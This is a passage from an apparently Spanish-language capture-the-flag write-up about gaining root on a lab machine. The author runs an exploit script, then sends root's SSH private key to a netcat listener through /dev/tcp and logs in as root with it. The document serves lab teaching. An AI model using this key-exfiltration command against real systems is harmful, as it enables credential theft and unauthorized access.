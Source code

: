 Ejecuto el script para llevar a cabo la escalada.

```terminal
jerry@thlcpptv16:~$ chmod +x exploit.sh

jerry@thlcpptv16:~$ ./exploit.sh
```

![](assets/img/thl-writeup-thlcppt_v16/thlcppt_v165_1.png)

Una vez ejecutado, obtengo una clave privada válida para acceder como `root`.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ nc -lnvp 4444 > id_rsa
	listening on [any] 4444 ...

jerry@thlcpptv16:~$ cat .ssh/id_rsa > /dev/tcp/192.168.0.171/4444

	... connect to [192.168.0.171] from (UNKNOWN) [192.168.0.138] 36436
```

De esta forma consigo acceso total al sistema.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ chmod 600 id_rsa
/home/kali/Documents/thl/thlcppt_v16:-$ ssh root@thlcpptv16.thl -i id_rsa

root@thlcpptv16:~# id
uid=0(root) gid=0(root) grupos=0(root)

root@thlcpptv16:~# cat root.txt
```